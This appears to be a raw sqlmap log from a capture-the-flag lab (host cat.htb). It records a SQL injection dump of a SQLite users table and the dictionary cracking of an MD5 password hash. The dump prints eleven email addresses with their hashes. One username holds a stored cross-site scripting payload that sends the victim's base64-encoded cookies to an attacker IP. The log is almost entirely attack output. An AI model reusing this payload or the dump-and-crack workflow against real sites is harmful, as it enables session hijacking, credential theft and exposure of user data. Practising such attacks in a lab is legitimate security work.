 ```c
[14:52:58] [INFO] retrieved: 3858f62230ac3c915f300c664312c63f
[14:53:05] [INFO] retrieved: 11
[14:53:06] [INFO] retrieved: <script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script>
[14:53:29] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[14:53:29] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:53:29] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[14:53:29] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[14:53:29] [INFO] starting 4 processes 
[14:53:32] [INFO] cracked password 'foobar' for user '<script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script>'                                                                                                      
Database: <current>                                                                                                                                                                                                                        
Table: users
[11 entries]
+---------+-------------------------------+-------------------------------------------+--------------------------------------------------------------------------------+
| user_id | email                         | password                                  | username                                                                       |
+---------+-------------------------------+-------------------------------------------+--------------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f          | axel                                                                           |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c          | rosa                                                                           |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad          | robert                                                                         |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe          | fabian                                                                         |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86          | jerryson                                                                       |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8          | larry                                                                          |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6            | royer                                                                          |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a          | peter                                                                          |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565          | angel                                                                          |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad          | jobert                                                                         |
| 11      | foobar@foobar.local           | 3858f62230ac3c915f300c664312c63f (foobar) | <script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script> |
+---------+-------------------------------+-------------------------------------------+--------------------------------------------------------------------------------+

[14:53:39] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/cat.htb/dump/SQLite_masterdb/users.csv'
[14:53:39] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 3379 times
[14:53:39] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/cat.htb'
```